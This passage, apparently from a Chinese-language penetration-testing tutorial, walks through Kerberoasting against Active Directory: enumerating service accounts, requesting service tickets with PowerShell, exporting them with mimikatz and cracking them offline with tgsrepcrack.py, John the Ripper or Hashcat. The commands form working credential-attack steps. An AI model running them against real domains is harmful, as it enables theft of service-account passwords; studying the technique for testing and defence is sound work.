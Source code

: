 vbs:

https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.vbs

参数如下：

```
cscript GetUserSPNs.vbs
```

### 2、请求TGS

#### (1)请求指定TGS

```
$SPNName = 'MSSQLSvc/DC1.test.com'
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

#### (2)请求所有TGS

```
Add-Type -AssemblyName System.IdentityModel  
setspn.exe -q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

执行后输入`klist`查看内存中的票据，可找到获得的TGS

### 3、导出

使用mimikatz

```
kerberos::list /export
```

### 4、破解

https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py

```
./tgsrepcrack.py wordlist.txt test.kirbi
```

## 0x05 Kerberoasting的实现方法二
---

自动实现，并且不需要mimikatz，普通用户权限即可，参考资料：

http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/

代码地址：

https://github.com/EmpireProject/Empire/commit/6ee7e036607a62b0192daed46d3711afc65c3921

使用`System.IdentityModel.Tokens.KerberosRequestorSecurityToken`请求TGS，在返回结果中提取出TGS，输出的TGS可选择John the Ripper或Hashcat进行破解
